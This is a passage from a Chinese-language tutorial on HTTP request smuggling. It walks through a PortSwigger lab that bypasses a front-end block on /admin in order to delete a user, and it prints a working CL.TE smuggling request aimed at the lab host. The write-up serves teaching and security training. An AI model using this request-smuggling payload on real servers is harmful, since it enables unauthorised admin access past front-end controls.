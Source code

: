 上面我们大概介绍了几种攻击方式，下面我来看看这些攻击方式可以用来干嘛。同样我们将配合实验环境帮助理解与复现。

### Bypass Front-end Security Controls

这里提供了两个实验环境，一个是 CL-TE 形式的 [Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te) ，一个是TE-CL 形式的 [Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl)，两个实验最终达到的目的一样，这里我们随便选用 CL-TE 的来进行实验。

> ​ This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.
> 
> To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.

架构一样，只不过这次我们需要去利用 HTTP Smuggling 获取 admin 权限并删除 carlos 用户。

我们生成 LAB 之后，直接访问`/admin`会发现 `"Path /admin is blocked"`，看来不能通过正常方式访问`/admin`，那我们尝试 HTTP Smuggling 的方式，发送如下数据包两次：

```plain
POST / HTTP/1.1
Host: ac211ffb1eae617180910ebc00fc00f4.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=KmHiNQ45l7kqzLTPM6uBMpcgm8uesd5a
Content-Length: 28
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
```

得到的响应如下两图

[![](assets/1698897445-c525c30c56b9b290fa980b54c5ca150b.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191123154656.png)
